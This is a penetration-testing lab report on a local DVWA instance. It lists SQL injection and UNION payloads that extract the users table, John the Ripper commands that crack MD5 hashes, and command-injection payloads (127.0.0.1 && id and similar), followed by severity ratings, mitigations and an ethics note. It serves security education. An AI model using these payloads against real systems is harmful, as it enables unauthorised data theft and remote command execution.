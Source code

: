 # Lab Report — Accessing Admin Panel (DVWA)

**Author:** [Matthew Chidiebere Chukwuorji]  
**Date:** 2025-09-12  
**Target:** DVWA (Damn Vulnerable Web Application) running locally on Kali (`http://127.0.0.1/dvwa`)  
**Scope:** Local lab / authorized testing only

---

## 1. Objective
Demonstrate exploitation techniques (SQL Injection and Command Injection) on a controlled DVWA instance to access the admin panel, extract credentials, and demonstrate remote command execution as the web user.

---

## 2. Environment
- Host OS: Kali Linux (local VM)  
- Application: DVWA (installed at `/var/www/html/dvwa`)  
- Services: Apache2, MySQL  
- DVWA Security level: **Low**

---

## 3. Vulnerabilities Identified
1. **SQL Injection — Authentication & Data Exfiltration (High)**  
   - Unsanitized input allowed injection and `UNION` queries to enumerate and exfiltrate data from the `users` table.

2. **Command Injection — Remote Command Execution (High)**  
   - The ping/host input was passed to a shell enabling arbitrary command execution as the web server user.

3. **Weak Password Storage — MD5 (High)**  
   - Passwords were stored using MD5 which facilitated rapid cracking of extracted password hashes.

---

## 4. Steps Performed (reproducible)
> Ensure DVWA is running locally and Security = Low.

### A. Verify SQL Injection
1. DVWA → **SQL Injection** lab.  
2. Input: 1' OR '1'='1
3. Result: Multiple rows returned confirming SQL injection.
   1. Screenshot: 'screenshots/SQL_Injection.png'

   ### B. Extract credentials via UNION
1. SQLi lab input: ' UNION SELECT user, password FROM users#
2. Result: Returned rows containing `user` and `password` (hashes or plaintext). Saved the hash to `hashes.txt`.
   1. Screenshot: 'screenshots/sql.png'

### C. Crack MD5 hashes
1. save the hash
   '''bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes.txt

# crack with John (MD5)
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes.txt
sudo john --show --format=raw-md5 hashes.txt
Result: cracked passwords saved
   1. Screenshot: 'screenshots/password.png'

### D. Command Injection Payloads
1. 127.0.0.1 && uname -a- show OS info
2. 127.0.0.1 && id - show effective user
3. 127.0.0.1 && ls -la /var/www/html - list webroot directory

## 5. Severity
1. SQL Injection: High (direct access to sensitive data and authentication bypass).
2. Command Injection: High (remote command execution).
3. MD5 password storage: High (practical to crack weak passwords).
4. Overall risk: High for a production system

## 6. Impact

1.Full disclosure of user credentials (including admin).

2. Unauthorized administrative access to web app (dashboard).

3. Data exfiltration, account takeover, and lateral movement potential.

4. Remote command execution as web user — may enable privilege escalation.

5. Business impact: Severe (data breach, regulatory risk, reputational/financial loss).

6. Availability: Medium (attacker could deface or disrupt services).

7. Integrity: High (attacker can modify or delete data).

8. Confidentiality: High (attacker can access admin-only data).

## 7. Mitigation & Recommendations

### Immediate

1. Harden deployment (remove test pages), keep DVWA off public networks, and enforce rate-limiting/account lockout.

2. Replace MD5-stored passwords and force resets if this were production.

### Developer / code changes

1. Use parameterized queries / prepared statements (no string concatenation).

2. Never pass raw user input to shell commands; use safe libraries/APIs and strict whitelists (e.g., IPv4 regex).

3. Migrate password storage to bcrypt/Argon2 with per-user salts and proper cost factor.

4. Ensure DB accounts are least-privilege.

### Operational

1. Deploy a WAF to detect/block SQLi/command injection patterns.

2. Enable logging, monitoring, and alerting for suspicious activity.

3. Schedule SAST/DAST scans and developer secure-coding training 

## 8. Ethics & Notes

All testing and evidence were produced on a local DVWA instance under my control. Do not run these tests against systems you do not own or have explicit written permission to test.

## Screenshots

'[Photo of John the Ripper](screenshots/password.png)




